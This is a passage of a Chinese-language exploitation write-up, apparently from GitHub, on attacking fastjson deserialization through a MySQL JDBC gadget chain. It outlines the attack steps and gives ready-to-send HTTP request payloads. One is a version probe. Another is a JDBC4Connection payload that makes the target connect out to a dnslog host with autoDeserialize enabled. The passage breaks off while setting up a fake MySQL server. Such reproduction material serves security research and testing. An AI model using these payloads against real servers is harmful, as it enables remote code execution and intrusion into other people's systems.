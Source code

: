 # 0x02 利用思路
1. 发现 fastjson
2. 判断出存在 `mysql jdbc` 利用链
3. 通过dns大致判断 `gadget`
4. 存在 `cb190 gadget`
5. 利用工具封装回显的 `payload`
6. 起一个 `mysql fake server`

# 0x03 漏洞复现
## 3.1 fastjson版本判断
```
POST /parseObject HTTP/1.1
Host: localhost:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Connection: close
Content-Type: application/json
Content-Length: 36

{
"@type":"java.lang.AutoCloseable"
```

![image](https://user-images.githubusercontent.com/84888757/229470031-f2af15d4-808d-424b-aa6e-55a8cbb50fae.png)

## 3.2 判断出存在mysql jdbc利用 - JDBC4Connection
```
POST /parseObject HTTP/1.1
Host: localhost:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: application/json
Connection: close
Content-Length: 351

{"x":{"@type":"java.lang.AutoCloseable","@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"1268.v6840fsg.eyes.sh","portToConnectTo":80,"info":{"user":"root","password":"ubuntu","useSSL":"false","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true"},"databaseToConnectTo":"mysql","url":""}}
```

![image](https://user-images.githubusercontent.com/84888757/229470371-bca2d9a9-4984-42c0-9d38-b1504e8dca1a.png)

dnslog 平台：

<img width="986" alt="image" src="https://user-images.githubusercontent.com/84888757/229470480-ddddd8c9-3016-4062-94be-2a37ce4240c4.png">

## 3.3 通过dns大致判断gadget
1、下载 [fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server/) ，替换 `config.json` 文件如下，用于后续通过 `DNSlog` 探测服务端存在哪些类。
